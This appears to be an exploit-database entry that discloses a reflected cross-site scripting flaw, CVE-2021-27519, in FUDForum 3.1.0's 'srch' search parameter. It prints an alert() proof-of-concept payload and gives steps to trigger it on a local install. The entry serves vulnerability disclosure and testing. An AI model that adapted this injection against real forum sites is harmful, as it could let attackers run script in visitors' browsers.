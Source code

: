 XSS
---

    # Exploit Title: FUDForum 3.1.0 - 'srch' Reflected XSS
    # Exploit Author: Piyush Patil
    # Vendor Homepage: http://fudforum.org/
    # Software Link: https://sourceforge.net/projects/fudforum/files/FUDforum_3.1.0.zip/download
    # Version: FUDForum 3.1.0
    # Tested on: Windows 10 and Kali
    # CVE : CVE-2021-27519

    -Description:
    A cross-site scripting (XSS) issue in FUDForum 3.1.0 allows remote attackers to inject JavaScript via index.php in the "srch" parameter.


    -Payload used:
    x" onmouseover=alert(1) x="

    -Steps to reproduce:
    1- goto https://localhost/fudforum/index.php?t=search&
    2- In "forum search" option, paste XSS payload
    3- Hover your mouse to "x" and XSS will get triggered